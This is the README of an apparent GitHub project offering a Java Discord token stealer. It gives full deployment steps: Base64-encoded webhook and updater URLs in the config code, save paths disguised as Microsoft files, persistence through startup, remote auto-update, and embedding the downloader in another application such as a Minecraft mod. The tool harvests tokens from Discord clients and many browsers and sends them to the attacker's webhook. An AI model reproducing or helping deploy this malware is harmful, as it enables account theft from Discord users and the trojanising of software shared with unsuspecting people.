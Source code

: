Simple Discord token logging utility written in Java. Supports both [Clients](#client-support-list) and [Browsers](#browser-support-list).
## Features
- Capture tokens saved by Discord clients and browsers in LevelDB files
- Retrieve user information using said tokens and seamlessly send it to a designated webhook in an easily customizable embed format with placeholders
- Deployment through a lightweight downloader that operates independently of external dependencies
- Added to startup for persistence, ensuring continuous monitoring.
- Enhance and adapt the application's functionality as needed through auto-update capabilities
## Dependencies
- Java 8
- [Jackson](https://github.com/FasterXML/jackson)
- [JNA](https://github.com/java-native-access/jna)
- [OkHttp](https://github.com/square/okhttp)
- [mslinks](https://github.com/DmitriiShamrikov/mslinks)
## Usage
1. Host three empty files on GitHub similar to [/examples/](../blob/master/examples/). Any other service works too, as long as the URL of each hosted file remains the same after updating them.
2. Encode the URLs of your Discord webhook, the Updater JAR and the Version Info file in Base64.
    ```
   https://discord.com/api/webhooks/...    >>>   aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==
   https://github.com/.../Updater.jar      >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=
   https://github.com/.../Version%20Info   >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=
   ```
3. Update the **Config** class accordingly:
    ```java
    public static final String WEBHOOK_URL      = decode("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==");
    public static final String VERSION_INFO_URL = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=");
    public static final String UPDATER_JAR_URL  = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=");
    ```
4. *(Optional)* Adjust the download paths for the Updater, the Application and the version number respectively in the **Config** class:
    ```java
    public static final String UPDATER_SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    public static final String APP_SAVE_PATH     = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
    public static final int    VERSION_NUMBER    = 1;
    ```
5. Build the **Application**(`gradle applicationJar`) and the **Updater** (`gradle updaterJar`)
6. Update your hosted files with the newly built JARs and edit the Version Info similarly to [/examples/Version Info](../blob/master/examples/Version%20Info), making sure the value of "version" matches the VERSION_NUMBER specified earlier:
    ```json
    {
    "version":1,
    "link":"https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Application.jar"
    }
    ```
7. Implement the Downloader source in your preferred Java application (such as a Minecraft mod) and build it.
8. Run the standalone Downloader or the Java application with the integrated downloader, your Discord token and related user information will be automatically sent to your webhook.
## Auto-Update
- ### Application
  To distribute updates to all instances of your application, you must first locate and update the version number in the **Config** class to a higher value than the current one.This version number will help identify whether an update is available. You can then make the necessary changes to your main application and build it. Finally, host the new version and update the version information file to reflect these changes. This file serves as a reference for your application to determine whether an update is needed.

  *Be cautious when updating the version number. If the version number specified in the UpdateHelper class is smaller than the one in the version information file, the Application and Updater will enter a loop of downloading and deleting each other continuously. Make sure to keep the version numbers consistent to avoid this issue.*
- ### Updater
  To distribute new versions of the updater itself, simply build it with the necessary changes and replace the old file with it. The main application will download it the next time an update is needed.

  *If you cannot get the same URL for the updater as before, you will have to push a dummy update of the main application with a higher version number and the link to the new updater jar. In general, if you do not own a server, it would be good practice to host the files on GitHub and update them through that to retain the same URLs.*

### Supported Clients
- Discord
- Discord Canary
- Discord PTB

### Supported Browsers
- Brave Browser
- Epic Privacy Browser
- Falkon
- Google Chrome
- Google Chrome Beta
- Google Chrome Canary
- Google Chrome Dev
- Iridium
- Microsoft Edge
- Opera
- Opera Beta
- Opera Developer
- Opera GX
- (Ungoogled) Chromium
- Vivaldi
- Yandex